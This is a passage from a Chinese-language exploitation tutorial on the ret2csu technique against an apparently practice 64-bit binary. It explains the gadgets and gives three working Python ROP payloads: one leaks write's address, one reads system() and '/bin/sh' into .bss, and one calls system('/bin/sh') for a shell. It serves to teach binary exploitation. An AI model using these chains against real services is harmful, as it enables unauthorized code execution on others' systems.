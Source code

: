 利用其中 0x400606 开始的6行代码，我们可以控制寄存器``rbx,rbp,r12,r13,r14,r15``的值。随后可以利用 0x4005f0 开始的6行代码，将 r15 的值赋值给 rdx ， r14 的值赋值给 rsi ， r13 的值赋值给 edi 。随后就会调用call qword ptr [r12+rbx*8]。只要我们控制rbx的值为 0 ，精心构造栈上传入上述寄存器的值，就可以实现控制 pc ，调用我们想要的函数。

> 为什么需要控制 rbx 的值为0？
>
> 执行完 call qword ptr [r12+rbx*8] 之后，程序会对rbx+=1，然后对比 rbp 和 rbx 的值，如果相等就会继续向下执行并 ret 到我们想要继续执行的地址。所以为了让 rbp 和 rbx 的值相等，我们可以将 rbp 的值设置为1，因为之前已经将 rbx 的值设置为0了。

我们先构造 payload1 ，利用 write() 输出 write 在内存中的地址。注意我们的 gadget 是 call qword ptr [r12+rbx*8] ，所以我们应该使用 write.got 的地址而不是 write.plt 的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。

> 为什么使用的是 write.got 而不是 write.plt？
>
> write.plt 相当于 call write。执行了两个动作，将指针跳转到 write 真实地址；将返回地址压栈。
>
> write.got 仅将指针跳转到 write 真实地址。

payload1 构造如下：

```python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400606) + p64(0xdeadbeef) +p64(0) + p64(1) + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "\x00"*56
payload1 += p64(main)
```

当我们 exp 在收到 write() 在内存中的地址后，就可以计算出 system() 在内存中的地址了。接着我们构造 payload2 ，利用 read() 将 system() 的地址以及 /bin/sh 读入到 .bss 段内存中。

payload2 构造如下：

```python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400606) + p64(0xdeadbeef) + p64(0) + p64(1) + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "\x00"*56
payload2 += p64(main)
```

最后我们构造 payload3 ,调用 system() 函数执行 /bin/sh 。注意， system() 的地址保存在了 .bss 段首地址上， /bin/sh 的地址保存在了 .bss 段首地址+8字节上。

```python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400606) + p64(0xdeadbeef) +p64(0) + p64(1) + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_junk_rbx_rbp_r12_r13_r14_r15_ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "\x00"*56
payload3 += p64(main)
```
